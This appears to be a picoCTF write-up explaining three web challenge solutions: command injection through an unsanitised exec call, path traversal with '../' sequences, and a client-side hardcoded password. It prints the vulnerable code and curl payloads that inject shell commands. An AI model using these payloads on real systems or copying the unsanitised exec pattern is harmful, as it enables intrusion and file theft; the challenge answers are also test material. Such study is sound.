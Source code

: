 ## 1. Cows As A Service (CaaS)

The vulnerability in this challenge lies in the fact that the application is using `exec` to execute a shell command without properly sanitizing the user input. This allows for Command Injection, a form of injection attack where an attacker can execute arbitrary commands on the host operating system.

The relevant code in `index.js` is:

```javascript
app.get('/cowsay/:message', (req, res) => {
    exec(`/usr/games/cowsay ${req.params.message}`, {timeout: 5000}, (error, stdout) => {
        if (error) return res.status(500).end();
        res.type('txt').send(stdout).end();
    });
});
```

The `exec` function is used to execute the `cowsay` command with the user-provided message. However, the message is directly appended to the command without any sanitization, allowing for command injection.

To exploit this, you can append a semicolon (`;`) to the message followed by any command you want to execute. The semicolon in shell scripting is used to separate multiple commands.

For example, to list all files in the current directory, you can use the `ls` command:

```bash
curl "https://caas.mars.picoctf.net/cowsay/test;ls"
```

To read the contents of the `falg.txt` file, you can use the `cat` command:

```bash
curl "https://caas.mars.picoctf.net/cowsay/test;cat<falg.txt"
```

## 2. Forbidden Paths

The challenge here is to read the file `/flag.txt` without using absolute paths. The solution is to use relative paths.

Assuming the current directory is `/usr/share/nginx/html/`, you can use the `../` notation to navigate up the directory tree. Each `../` goes up one level. So to reach the root directory from the current directory, you can use `../../../../`.

Then, you can append the relative path to the `flag.txt` file to reach it:

```bash
../../../../flag.txt
```

## 3. Local Authority

The vulnerability in this challenge is that the application is checking the username and password on the client side, which is insecure because the client-side code can be easily viewed and modified by the user.

The relevant JavaScript code is:

```javascript
function checkPassword(username, password)
{
  if( username === 'admin' && password === 'strongPassword098765' )
  {
    return true;
  }
  else
  {
    return false;
  }
}
```

This function checks if the username is `admin` and the password is `strongPassword098765`. If they are, the function returns `true`, allowing you to log in.

To exploit this, you can simply use `admin` as the username and `strongPassword098765` as the password to log in and get the flag.

